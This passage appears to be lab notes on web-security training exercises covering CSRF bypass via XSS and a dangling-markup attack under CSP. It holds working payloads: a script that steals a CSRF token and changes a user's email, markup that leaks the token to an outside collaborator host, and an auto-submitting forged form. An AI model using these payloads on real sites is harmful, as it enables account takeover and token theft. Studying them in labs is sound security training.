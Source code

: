 ```
<script>
var req = new XMLHttpRequest();
req.onload = handleResponse;
req.open('get','/my-account',true);
req.send();
function handleResponse() {
    var token = this.responseText.match(/name="csrf" value="(\w+)"/)[1];
    var changeReq = new XMLHttpRequest();
    changeReq.open('post', '/my-account/change-email', true);
    changeReq.send('csrf='+token+'&email=test@test.com')
};
</script>
```

We can bypass csrf protection with extraction and using csrf value via JS.

### Lab: Reflected XSS protected by CSP, with dangling markup attack

This lab uses CSP to mitigate against XSS attacks.

To solve the lab, perform a dangling markup attack that steals a CSRF token and uses it to change the email address of another user.

```
/my-account?email=test@test.com
In response:
<input required type="email" name="email" value="test@test.com">
```

**Payload ->**

```
/my-account?email="><table background='//xlm3ivay5f7iqudzjk8jv7nuclib60.burpcollaborator.net?
```

**Exploit Server ->**

```
Body:
	<script>
		location='https://acb61f031e0d3c48c0bd4e7f009600ad.web-security-academy.net/my-	account?email=%22%3E%3Ctable%20background=%27//xlm3ivay5f7iqudzjk8jv7nuclib60.burpcollaborator.net?';
	</script>
```

csrf = ZWeTT0MOouA9WCDtr93ekFbnQvueoN42

Intercepted request of updating mail address -> Engagement Tools -> CSRF PoC Generator -> Options -> Include Auto-Submit Script(Checked) -> Regenerate -> Replace csrf value with it

**Exploit Server ->**

```
Body:
    <html>
        <!-- CSRF PoC - generated by Burp Suite Professional -->
        <body>
            <script>history.pushState('', '', '/')</script>
            <form action="https://acb61f031e0d3c48c0bd4e7f009600ad.web-security-academy.net/my-account/change-email" method="POST">
                <input type="hidden" name="email" value="hacker&#64;evil&#45;user&#46;net" />
                <input type="hidden" name="csrf" value="ZWeTT0MOouA9WCDtr93ekFbnQvueoN42" />
                <input type="submit" value="Submit request" />
            </form>
            <script>
                document.forms[0].submit();
            </script>
        </body>
```